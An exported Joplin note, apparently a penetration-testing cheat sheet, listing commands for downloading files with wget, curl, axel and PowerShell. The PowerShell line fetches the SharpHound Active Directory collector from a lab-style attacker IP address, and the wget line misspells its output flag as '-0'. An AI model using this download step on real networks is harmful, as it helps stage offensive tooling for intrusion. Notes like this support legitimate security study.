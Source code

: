 Downloading Files

Wget

> wget -0 &lt;url&gt; &lt;filename&gt;

Curl

> curl -o &lt;filename&gt; &lt;url&gt;

Axel

> axel -a -n 20 -o &lt;filename&gt; &lt;url&gt;

Powershell

> powershell -c (New-Object Net.WebClient).DownloadFile('http://192.168.119.222:8001/SharpHound.exe', 'SharpHound.exe')

id: 7fcb789b143c4fdead546ced081886f7
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-20T06:22:14.996Z
updated_time: 2022-04-21T16:03:26.897Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T06:22:14.996Z
user_updated_time: 2022-04-21T16:03:26.897Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1